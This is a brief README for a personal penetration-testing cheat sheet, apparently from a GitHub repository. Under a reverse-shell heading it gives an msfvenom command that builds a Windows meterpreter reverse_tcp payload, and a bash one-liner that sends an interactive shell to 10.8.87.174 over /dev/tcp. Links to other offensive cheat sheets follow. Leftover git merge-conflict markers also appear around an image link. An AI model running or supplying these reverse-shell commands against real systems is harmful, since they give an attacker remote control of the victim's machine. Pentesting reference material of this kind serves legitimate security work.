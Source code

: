 # Pentesting CheatSheet
<<<<<<< HEAD

![](../Images/Hacking.gif | width=100)
=======
![Terminal](../Images/hacking.gif)
>>>>>>> a0e76e1f0772dea9de8404266b1474ef73d3c584

This is a cheat sheet to pentesting it contains the code snippets i use during my pentesting job.

## ReverseShell
### Msfvenom Windows

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe LHOST=tun0 LPORT=8989 -o /home/kali/Machine/Crafty/reverse.exe
```
### Bash

```bash
bash -i >& /dev/tcp/10.8.87.174/8888 0>&1
```


# Resource

- **[Read Team Notes](https://www.ired.team/offensive-security-experiments/offensive-security-cheetsheets)**
- **[Hausec](https://hausec.com/pentesting-cheatsheet/)**
- **[Pentest-Cheat-Sheets](https://github.com/Kitsun3Sec/Pentest-Cheat-Sheets)**
